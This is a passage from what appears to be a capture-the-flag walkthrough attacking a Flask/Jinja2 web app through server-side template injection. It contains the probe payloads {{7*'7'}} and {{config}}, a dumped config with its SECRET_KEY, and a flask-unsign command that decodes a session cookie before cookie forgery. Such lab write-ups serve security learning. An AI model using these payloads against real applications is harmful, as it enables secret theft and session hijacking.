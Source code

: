 ![Screen Shot 2021-06-02 at 04.00.28.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/75EDF2A0-35C3-4361-A330-C16BB88E2DA8_2/Screen%20Shot%202021-06-02%20at%2004.00.28.png)

As you can see, the username is 14 that’s because we used a payload to add the numbers. The username field is limited to 10 characters, so we can input a payload to get the reverse shell.

![Screen Shot 2021-06-02 at 04.03.16.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/BA471AE3-633B-44CE-B38C-D2CCF6225BF8_2/Screen%20Shot%202021-06-02%20at%2004.03.16.png)

Let’s find the which template engine is being run on the machine. To identify we will use {{7*’7’}}, if ‘Twig’ is running then the result would be 49, if Jinja2 is running then the result would be 7777777.

![Screen Shot 2021-06-02 at 23.00.45.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/28FBE74A-43B5-4917-80C4-9C40AA6108AA_2/Screen%20Shot%202021-06-02%20at%2023.00.45.png)

As you can see, the result is 7777777, so Jinja2 is running as template engine. Let’s read the configuration file with {{config}} to read the variables.

![Screen Shot 2021-06-02 at 04.06.20.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/4FD62EBC-21DF-4ABC-8135-C0C77A7B4C04_2/Screen%20Shot%202021-06-02%20at%2004.06.20.png)

The configuration is username field, but it’s quite long so we need to view the page source.

```html
<input type="text" name="username" readonly value="&lt;Config {&#39;ENV&#39;: &#39;production&#39;, &#39;DEBUG&#39;: False, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: &#39;Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942&#39;, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(31), &#39;USE_X_SENDFILE&#39;: False, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: False, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: datetime.timedelta(0, 43200), &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: False, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093, &#39;RATELIMIT_ENABLED&#39;: True, &#39;RATELIMIT_DEFAULTS_PER_METHOD&#39;: False, &#39;RATELIMIT_SWALLOW_ERRORS&#39;: False, &#39;RATELIMIT_HEADERS_ENABLED&#39;: False, &#39;RATELIMIT_STORAGE_URL&#39;: &#39;memory://&#39;, &#39;RATELIMIT_STRATEGY&#39;: &#39;fixed-window&#39;, &#39;RATELIMIT_HEADER_RESET&#39;: &#39;X-RateLimit-Reset&#39;, &#39;RATELIMIT_HEADER_REMAINING&#39;: &#39;X-RateLimit-Remaining&#39;, &#39;RATELIMIT_HEADER_LIMIT&#39;: &#39;X-RateLimit-Limit&#39;, &#39;RATELIMIT_HEADER_RETRY_AFTER&#39;: &#39;Retry-After&#39;, &#39;UPLOAD_FOLDER&#39;: &#39;static/uploads&#39;}&gt;" />
```

From this configuration we get the secret_key value. If it’s Jinja2 then the ‘Flask’ web application framework must be running in parallel. Let’s confirm by decoding the cookies.

```shell
🔥\> flask-unsign -d -c eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6Ijk1MjlkNzRmLWQwNTEtNDRhMC04M2I0LWI3MWZmODcwMzI4YyJ9.YLhyyQ.tDNrLRGFoBeGsjHs7m2gP7_zcMA
{'cart_items': [], 'uuid': '9529d74f-d051-44a0-83b4-b71ff870328c'}
```

As you can see we successfully decoded the cookies with python module called ‘flask-unsign’ by providing the cookies of current user.

> So far we have identified that Flask framework is running with Jinja2 as template engine. It is vulnerable to SSTI and we have the secret_key value. Now we can modify the session cookies because we have the secret_key.
